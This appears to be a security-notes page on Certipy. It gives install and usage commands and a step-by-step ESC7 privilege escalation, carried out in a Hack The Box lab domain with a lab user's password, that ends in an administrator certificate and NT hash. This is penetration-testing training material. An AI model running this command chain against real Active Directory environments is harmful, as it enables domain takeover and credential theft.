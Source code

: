 # About
[Certipy](https://github.com/ly4k/Certipy) is a tool for Active Directory Certificate Services enumeration and abuse. It's is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). If you're not familiar with AD CS and the various domain escalation techniques, from the github, a good resource is: [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_).
## Links
[Certipy Github](https://github.com/ly4k/Certipy)
# Installing
Install reqs
```
sudo apt update && sudo apt install -y python3 python3-pip
```

From within a Virtual Envrionment(venv)
```
pip install certipy-ad
```

# Usage
**Enumerate AD CS** - The attacker runs `certipy find` to discover any vulnerable configurations:
```shell
certipy find -u 'USER@DOMAIN' -p 'PASSWORD' -dc-ip 'DC-IP' -text -enabled -hide-admins
```

Dump all CAs and Templates
```
certipy find -u 'USER@DOMAIN' -p 'PASSWORD' -dc-ip 'DC-IP'
```

ESC1 - write pfx file
```
certipy req -u 'USER@DOMAIN' -p 'PASSWORD' -dc-ip 'DC-IP' -target "TARGET_CA_DNS" -ca "CA_NAME" -template "TEMPLATE" -upn "TARGET_USER_AT_DOMAIN_COM" -sid "TARGET_USER_SID" -key-size 4096
```

ESC1 - Authenticate with pfx file
```
certipy auth -pfx "PFX_FILE_NAME" -dc-ip "DC-IP"
```
# Usage
We can use the `find` argument to enumerate AD CS certificate templates, certificate authorities and other configurations and with `-vulnerable` it can show us what "ESC#"(Escalation number, for a full list, checkout the Github they are vulnerable to. In this example, it's Vulnable to ESC7, which is when a user has the `Manage CA` or `Manage Certificates` access right on a CA.

```
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FHhB5fYLAkA0k0Ym1lqsb%252Fimage.png%3Falt%3Dmedia%26token%3D08e55e46-7162-4b06-8a85-47d96cffcd72&width=768&dpr=4&quality=100&sign=29f9884e&sv=2)

So in this example we have Ravens credentials and can upgrade her account to have additional permissions. If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FmYZ7E68rShUhiV0qUG1n%252Fimage.png%3Falt%3Dmedia%26token%3De296b3cc-14f9-461e-a4e2-071a0eae7141&width=768&dpr=4&quality=100&sign=3fc4c421&sv=2)

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template. This request will be denied, but we will save the private key and note down the request ID. With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FK8gcqQtIMfhhhtUdg7bB%252Fimage.png%3Falt%3Dmedia%26token%3D9ff7fc58-5022-4988-afc6-08fad0b29733&width=768&dpr=4&quality=100&sign=38485cfb&sv=2)

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FinhyW4HbkCTQP05QVDQ0%252Fimage.png%3Falt%3Dmedia%26token%3D93ab9a4d-946a-4e73-869a-aa01da86eb32&width=768&dpr=4&quality=100&sign=f00f230d&sv=2)

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FCpFqs1Dg7hlf9WNOrqJu%252Fimage.png%3Falt%3Dmedia%26token%3Dc028dcb9-3cdf-4be3-9d33-338ee6789920&width=768&dpr=4&quality=100&sign=a5900b28&sv=2)

Now that we have the Administrator.pfx file we can obtain the admin hash using the `auth` argument. [From the github](https://github.com/ly4k/Certipy#authenticate) "The `auth` command will use either the PKINIT Kerberos extension or Schannel protocol for authentication with the provided certificate. Kerberos can be used to retrieve a TGT and the NT hash for the target user, whereas Schannel will open a connection to LDAPS and drop into an interactive shell with limited LDAP commands. See the [blog posts](https://research.ifcr.dk/) for more information on when to use which option"

```
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FAWWUZ8I6sxR9wmkSJkiQ%252Fimage.png%3Falt%3Dmedia%26token%3Dfe8a7bde-637d-48d0-a78e-5e3dc9896f63&width=768&dpr=4&quality=100&sign=d2902424&sv=2)
